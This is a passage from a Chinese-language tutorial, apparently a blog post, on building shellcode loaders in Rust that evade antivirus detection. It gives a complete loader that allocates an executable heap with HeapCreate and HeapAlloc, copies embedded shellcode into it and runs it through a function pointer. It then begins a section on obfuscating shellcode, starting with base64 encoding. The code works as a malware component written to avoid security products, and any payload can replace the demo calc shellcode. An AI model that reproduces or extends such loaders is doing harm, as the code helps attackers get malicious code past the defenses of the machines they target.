 由于`VirtualAlloc`是各大杀软的重点监控对象，所以通常需要使用其他的API来替代，下面介绍的是另一个常见的内存申请方式，即通过`HeapCreate/HeapAlloc`的组合来创建内存空间。  
参考：HeapCreate function, HeapAlloc function

该方式同样需要先引入依赖，在`Cargo.toml`文件中添加如下依赖：

    
    
    [dependencies]  
    winapi = {version="0.3.9",features=["winuser","heapapi","errhandlingapi"]}

该方法通过`HeapCreate`创建`HEAP_CREATE_ENABLE_EXECUTE`权限的内存堆，然后通过`HeapAlloc`来从堆中分配内存空间，最后通过函数指针的方式执行shellcode。

    
    
    use std::mem::transmute;  
    use winapi::ctypes::c_void;  
    use winapi::um::errhandlingapi::GetLastError;  
    use winapi::um::heapapi::HeapAlloc;  
    use winapi::um::heapapi::HeapCreate;  
      
    fn main() {  
        let buffer = include_bytes!("..\\calc.bin");  
      
        unsafe {  
            let heap = HeapCreate(0x40000, 0, 0);  
            let ptr = HeapAlloc(heap, 8, buffer.len());  
      
            if GetLastError() == 0 {  
                std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());  
                let exec = transmute::<*mut c_void, fn()>(ptr);  
                exec();  
            }  
        }  
    }  
    

## Shellcode混淆方式

上面介绍了在Rust中为shellcode申请内存空间和执行shellcode的几种常见的方式，接下来会介绍几种常见的编码和加密混淆方式在Rust中的实现。在实际的shellcode免杀的时候经常需要结合几种混淆方式，或者是自己设计加密混淆方式。

### Base64编码

在Rust中实现base64编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

    
    
    [dependencies]  
    base64 = "0.20.0"

通过下面的代码即可将传入的切片类型的shellcode进行base64编码并返回一段字符串。

    
    
    fn b64_enc(shellcode: &[u8]) -> String {  
        base64::encode(shellcode)  
    }  
    